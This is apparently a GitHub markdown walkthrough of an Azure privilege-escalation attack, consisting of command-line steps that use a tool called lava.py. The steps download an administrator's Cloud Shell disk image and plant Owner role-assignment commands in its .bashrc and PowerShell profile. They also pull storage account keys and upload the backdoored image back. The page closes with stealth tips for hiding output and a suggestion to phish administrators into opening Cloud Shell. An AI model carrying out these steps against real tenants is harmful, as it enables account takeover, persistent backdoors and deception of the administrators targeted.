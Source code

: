 # Privilege Escalation using the Cloud Shell Account

## Steps

 - az login -u CONTRIBUTOR_USER@DOMAIN.LOCAL -p PASSWORD (Authenticate with the contributor account)

 - python3 lava.py

 - Lava $> exec priv_show (Verify the current user and permissions)

 - Lava $> exec stg_file_scan (Scan the file shares in the Azure subscription for potential Cloud Shell images)

 - Lava $> exec stg_file_download (Downloads the file into a temporary directory. Make note of the download location.)

 - exit

 - mount DOWNLOAD_LOCATION/.cloudconsole/acc_azureadmin.img /mnt (Mount the downloaded image file)

 - ls /mnt/ (Explore the mounted drive with this command, then press tab)

 - cd /mnt (Change directory to the mounted drive)

 - echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc (Append a malicious command to the .bashrc file to escalate the privileges of our current user)

### To do the same for a Powershell session we can do:

 - mkdir .config

 - mkdir .config/PowerShell

 - echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1 (Same trick as Linux)

 - cd ..

 - umount /mnt (Unmount the drive from your session)

 - az storage account list --query [].name -o tsv (Enumerate the storage accounts)

 - storagename=STORAGE_ACCT_NAME (Store the target storage account in a variable)

 - key=$(az storage account keys list -n $storagename --query [0].value -o tsv) (Obtain the access key)

 - csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv) (Obtain the file share)

 - az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_azureadmin.img" --source "DOWNLOAD_LOCATION/.cloudconsole/acc_azureadmin.img" (Upload the image back to it)

 - Trigger the attack by opening a Cloud Shell instance as an administrator (Or wait for someone to trigger it)

 - After triggering, execute python3 lava.py

 - exec priv_show (Verify the attack worked)

## TIP: For a stealthier action from our attacks, we can use: | out-null function at the end of the Powershell command OR &> /dev/null at the end of the Bash shell attack.

### In a practical attack scenario, it may take a while for a victim Cloud Shell account to open a new session. To expedite this process, you could send a phishing email that links to https://shell.azure.com/. Not only will the link look legitimate, but it will start up a Cloud Shell session as soon as the site is loaded.



